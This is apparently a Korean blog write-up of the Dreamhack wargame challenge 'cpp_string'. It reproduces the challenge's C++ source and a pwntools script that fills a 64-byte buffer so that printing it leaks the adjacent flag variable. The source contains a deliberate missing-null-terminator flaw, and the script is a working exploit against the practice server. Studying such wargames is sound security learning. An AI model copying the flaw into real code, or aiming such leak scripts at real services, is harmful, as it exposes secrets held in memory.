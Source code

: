```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN cpp_string"
excerpt: "드림핵 포너블 cpp_string 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2023-05-08 18:00
---
```


이번 문제는 드림핵 1단계 cpp_string이다.

C++에서 파일 읽기에 사용되는 is.read 함수는 C언어의 read함수를 std::ifstream에서 사용할 수 있게 포팅한 함수로 C언어의 read와 동일하게 동작한다.

이전 워 게임에서 메모리를 릭 할때 사용한 할당된 버퍼를 꽉 채운 뒤 null을 자리값을 임의 값으로 넣으면 이후 메모리 주소에 나열되어 있는 메모리 값이 같이 읽히는 것을 볼 수 있다. 이와 동일한 버그가 발생한다는 뜻이다.

우선 소스코드를 살펴보자.

```c++
//g++ -o cpp_string cpp_string.cpp
#include <iostream>
#include <fstream>
#include <csignal>
#include <unistd.h>
#include <stdlib.h>

char readbuffer[64] = {0, };
char flag[64] = {0, };
std::string writebuffer;

void alarm_handler(int trash)
{
    std::cout << "TIME OUT" << std::endl;
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int read_file(){
	std::ifstream is ("test", std::ifstream::binary);
	if(is.is_open()){
        	is.read(readbuffer, sizeof(readbuffer));
		is.close();

		std::cout << "Read complete!" << std::endl;
        	return 0;
	}
	else{
        	std::cout << "No testfile...exiting.." << std::endl;
        	exit(0);
	}
}

int write_file(){
	std::ofstream of ("test", std::ifstream::binary);
	if(of.is_open()){
		std::cout << "Enter file contents : ";
        	std::cin >> writebuffer;
		of.write(writebuffer.c_str(), sizeof(readbuffer));
                of.close();
		std::cout << "Write complete!" << std::endl;
        	return 0;
	}
	else{
		std::cout << "Open error!" << std::endl;
		exit(0);
	}
}

int read_flag(){
        std::ifstream is ("flag", std::ifstream::binary);
        if(is.is_open()){
                is.read(flag, sizeof(readbuffer));
                is.close();
                return 0;
        }
        else{
		std::cout << "You must need flagfile.." << std::endl;
                exit(0);
        }
}

int show_contents(){
	std::cout << "contents : ";
	std::cout << readbuffer << std::endl;
	return 0;
}
	


int main(void) {
    initialize();
    int selector = 0;
    while(1){
    	std::cout << "Simple file system" << std::endl;
    	std::cout << "1. read file" << std::endl;
    	std::cout << "2. write file" << std::endl;
	std::cout << "3. show contents" << std::endl;
    	std::cout << "4. quit" << std::endl;
    	std::cout << "[*] input : ";
	std::cin >> selector;
	
	switch(selector){
		case 1:
			read_flag();
			read_file();
			break;
		case 2:
			write_file();
			break;
		case 3:
			show_contents();
			break;
		case 4:
			std::cout << "BYEBYE" << std::endl;
			exit(0);
	}
    }
}
```

뭔가 기능이 많아보인다. main 함수부터 분석해보면 어떤 행동을 할지 selector 값을 입력 받는다.

1번 매뉴를 통해서 read_flag()함수가 동작하여 디렉터리에 있는 flag 파일을 버퍼 크기만큼 읽어 64 크기의 버퍼에 쓴다. 이후 read_file()함수를 통해 동일 디렉터리에 있는 file 파일을 버퍼 크기만큼 읽어 64 크기의 버퍼에 쓴다.

2번 매뉴를 통해서 file 파일에 버퍼 크기만큼의 값을 쓴다.

3번 매뉴를 통해 읽어온 file을 출력한다.

여기서 readbuffer와 flag 변수의 주소는 서로 연속적으로 배치되어 있다. readbuffer 다음에 바로 flag 변수의 주소이다.

따라서 readbuffer를 최대로 채워줘 문자열의 끝을 알리는 null 바이트를 다른 값으로 덮어 뜨면 flag 변수의 내용을 leak 할수 있다.

공격 코드는 다음과 같다.

```python
from pwn import *
context.update(arch='amd64', os='linux')
#context.log_level = 'debug'

p = remote("host3.dreamhack.games", 9645)
#p = process("./iofile_vtable_check", env={'LD_PRELOAD':'./libc.so.6'})
#p = process("./cpp_string")
elf = ELF("./cpp_string")
#libc = ELF("./libc.so.6")

p.sendlineafter(b"[*] input : ", b"2")
p.sendlineafter(b"Enter file contents : ", b"a"*64)


p.sendlineafter(b"[*] input : ", b"1")
p.sendlineafter(b"[*] input : ", b"3")

print(p.recv())


p.interactive()
```